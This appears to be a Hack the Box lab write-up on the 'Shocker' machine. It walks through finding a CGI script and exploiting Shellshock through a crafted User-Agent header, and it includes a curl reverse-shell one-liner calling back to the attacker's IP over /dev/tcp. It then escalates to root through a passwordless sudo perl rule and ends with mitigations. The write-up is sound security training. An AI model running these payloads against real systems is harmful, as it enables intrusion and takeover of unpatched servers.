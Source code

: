 ```yaml
---

title: "Hack the Box (HTB) - Shocker"
description: "Exploiting Shellshock & poor sudo permissions"
date: 2024-07-20 12:00:00 -100
image: /assets/images/HTB - Shocker/HTB - Shocker Thumbnail.png
categories: [CTF]
tags: [shellshock, web application]    # TAG names should always be lowercase
---
```


## Enumeration

Let's start by running a [AutoRecon](https://github.com/Tib3rius/AutoRecon) against our box at `10.10.10.56`

```bash
sudo autorecon 10.10.10.56
```

Checking the full TCP scan of the machine, we see the following ports open:

| Port     | State | Service | Reason           | Version                                |
|----------|-------|---------|------------------|----------------------------------------|
| 80/tcp   | open  | http    | syn-ack ttl 63   | Apache httpd 2.4.18 ((Ubuntu))        |
| 2222/tcp | open  | ssh     | syn-ack ttl 63   | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2        |

This version of SSH `7.2p2` has the vulnerability [CVE-2016-6210](https://nvd.nist.gov/vuln/detail/cve-2016-6210). Exploiting this allows for username enumeration. When a large password is sent during authentication, the time difference can be measured to determine valid usernames. However, the `4ubuntu2.2` suffix added by Ubuntu indicates that it made modifications to the base OpenSSH software. This is likely to avoid unintended roots on the box as this is not the attack vector

Let's check out the apache web server running on port 80

![Apache web server](/assets/images/HTB%20-%20Shocker/Apache%20web%20server.png)

Nothing much here, checking  the source code only reveals bug.jpg which isn't useful

Let's check our dirbuster scan provided to us by autorecon

![Dirbuster](/assets/images/HTB%20-%20Shocker/Shocker%20Dirbuster.png)

Only 200 response on the root directory and bug.jpg.

I decided  to run a `feroxbuster` scan manually to check the directories as well

![CGI-BIN](/assets/images/HTB%20-%20Shocker/CGI%20BIN.png)

We're getting a 403 access denied on cgi-bin/ which is a common directory for web severs to store CGI executable scripts. These scripts are used to generated dynamic content on web servers. Let's run another enumeration on `cgi-bin/` to see what scripts we can find

```bash
feroxbuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl,py,php
```

![User.sh Script](/assets/images/HTB%20-%20Shocker/user.sh.png)

We get a 200 response on this /user.sh script. Let's curl the request to see what we get

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Curl Request](/assets/images/HTB%20-%20Shocker/Curl%20Request.png)

I got stuck here, apparently this directory is vulnerable to an exploit called [Shellshock](https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html#:~:text=Shellshock%2C%20also%20known%20as%20the,to%20a%20Bash%2Dbased%20application.). It's a vulnerability in old versions of Bash that was discovered in 2014 that lets attackers execute arbitrary commands on a system by exploiting how bash handles environment variables

Variables that are outside of a script affect the behavior of the system. ( `PATH` variable specifies directories where executable file are located )

In bash, functions can be defined to preform tasks.

- function_name() { commands; }

In this exploit, an attacker can inject a function definition into an environment variable and due to bash's improper handling of function definitions in environment variables it will execute the commands after the function definition

```bash
# Example pyaload
 () { :;}; echo vulnerable
```

The above code defines an empty function. The `:;` part is a no operation, effectively making the function do nothing & `echo vulnerable` is a command that will be executaed after the function definition due to the shellshock vulnerability

We can run a specific nmap scan against this to ascertain if the target is vulnerable

```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![Shocker Nmap](/assets/images/HTB%20-%20Shocker/Shocker%20nmap.png)

Our nmap scans confirms the target is vulnerable to [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271) I.E Shellshock



### Exploiting without Metasploit ?

There's a metasploit module that gets us user level access with the click of a button, but let's try exploiting manually for this box

We will use the following curl to make a malicious HTTP request with a specially crafted User-Agent header

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'whoami'"
```

- `() { :;}:` Defines a function in the User-Agent header (empty)
- `/bin/bash -c 'id'` The command that is executed by the vulnerable bash interpreter

Since this sever is confirmed to be running an outdated version of bash, it will process our user-agent header as a function definition. This happens because bash (**before the shellshock update**) processes the user agent header as a function definition instead of plain text

![Shell Shocked](/assets/images/HTB%20-%20Shocker/Shell%20Shocked.png)

We have RCE. Let's get our shell going. I'll start up my nc listener and perform the following curl request with the reverse shell one liner

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Shell](/assets/images/HTB%20-%20Shocker/Shell.png)

## Privilege Escalation

Running `sudo -l` tells us the following:

- User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

We can run perl commands as root without a password. We can leverage this to execute /bin/sh to spawn a shell. Since we run this as sudo it will spawn a root shell

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh"'` 
```

GG, we've rooted Shocker!

![Rooted](/assets/images/HTB%20-%20Shocker/Root%20Shocker.png)

## Summary

1. Initial Enumeration  discovered a web server
2. Directory Busting  found /cgi-bin/user.sh
3. Nmap Scanning  confirmed vulnerability to Shellshock
4. Curl HTTP Request verified Shellshock exploit
5. Reverse Shell established a connection back to your machine
6. Ran sudo -l to discover sudo rights for usr/bin/perl without a password
7. Used perl to execute /bin/sh as root

## Vulnerabilities & Mitigation

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Shellshock (CVE-2014-6271) in CGI scripts  | Update Bash to the latest version. Ensure scripts properly sanitize input.|
| Sudo privilege escalation NOPASSWD | Restrict sudo permissions and require passwords for all commands

### Remediation References

- [Mitre.org - Update Bash to the latest version](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
- [Restrict sudo permissions and require passwords for all commands](https://www.sudo.ws/security.html).
